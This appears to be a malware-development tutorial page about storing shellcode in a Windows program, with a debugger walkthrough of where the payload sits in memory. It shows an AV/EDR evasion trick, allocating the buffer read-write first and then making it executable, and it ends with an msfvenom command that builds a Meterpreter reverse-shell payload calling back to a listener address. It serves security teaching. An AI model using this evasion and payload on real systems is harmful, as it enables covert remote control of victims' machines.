







# Code section

## Payload in code section

Note: EDR and AV software are most of the time looking for action like memory buffer allocation to \(read write and execute\) at the same time. One way to bypass that is to create the buffer, set readwrite permission first and then, make it executable.

**Payload is stored into the main function as a local variable**

* Set the memory buffer to Read and Write

`exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

* Set the memory buffer to Executable and Read

`rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);`

### Payload \(0xCC \| INT3 allows the debugger to take control of the process, for testing purpose\)

```cpp
unsigned char payload[] = {
        0x90,        // NOP
        0x90,        // NOP
        0xcc,        // INT3
        0xc3        // RET
    };
```

#### Find pattern

Launch the process and attach it to the debugger. Go to `memory map` and search for the payload :



Get the memory addresses and search for them in "Memory Map" \(Note: it's a range\)



#### The payload is on the Stack

**local variable are located on stack**



#### Next one \(exec mem\)

From our code \(set Exec & read\)

`rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);`



Note: Last column \(initial, -RW--\) correspond to the previous permission used here :

`exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

#### Last one

Text section, Executable



* Follow it in Assembly



### Weaponize it

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.110.0.61 LPORT=443 -f c`



